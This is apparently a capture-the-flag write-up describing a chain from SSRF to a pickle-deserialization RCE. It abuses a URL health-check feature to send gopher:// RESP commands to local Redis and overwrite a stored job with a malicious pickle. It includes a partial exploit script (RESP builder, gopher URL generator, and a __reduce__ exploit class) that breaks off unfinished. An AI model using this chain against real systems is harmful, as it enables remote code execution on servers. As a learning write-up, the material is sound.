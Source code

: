 ```python
    current_app.redis.hset(env('REDIS_JOBS'), job_id, base64.b64encode(pickle.dumps(data))) # This line right here

    current_app.redis.rpush(env('REDIS_QUEUE'), job_id)

    return data
```

The data that should give us way to pass in our malicious class is actually serialized before it can be unserialized. The challenge is not that simple as it looks anymore.

Another features of the app is that health checking thing. It takes a URL and calls to URL regardless of host and protocol. This is perfect as we know Redis also runs on this challenge instance **and** our data is stored on it including those jobs. So if we can somehow manange this feature to change the data of a job to a pickle serialized base64 encoded string of an "evil" object, when this data os loaded, there will be RCE. This can be done with the URL health check features.

So to summarize, we will make use of SSRF vulnerabilities to change the data so it can trigger pickle deserialzation attack.

Good theory, but how can we perform such an attack. There are good resources on this:

https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b

https://trevorsaudi.medium.com/ssrf-to-gaining-rce-rootme-ssrf-box-31b7d0e5ad08

There's a tool called `Gopherus` but since this challenge is more simple, I will try to modify a script on a [github repo](https://github.com/rhamaa/Web-Hacking-Lab/blob/master/SSRF_REDIS_LAB/payload_redis.py) to:

```python
from __future__ import print_function

import os
import sys
import base64
import urllib.parse
import pickle
import subprocess


def generate_resp(command):
    res = ""

    if isinstance(command, list):
        pass
    else:
        command = command.split(" ")
    
    res += "*{}\n".format(len(command))
    for cmd in command:
        res += "${}\n".format(len(cmd))
        res += "{}\n".format(cmd)
    
    return res

def generate_gopher(payload):
    
    final_payload = "gopher://127.0.0.1:6379/_{}".format(urllib.parse.quote(payload))
    return final_payload

class PickleExploit(object):
    def __init__(self, command):
        self.cmd = command

    def __reduce__(self):
        cmd = command
```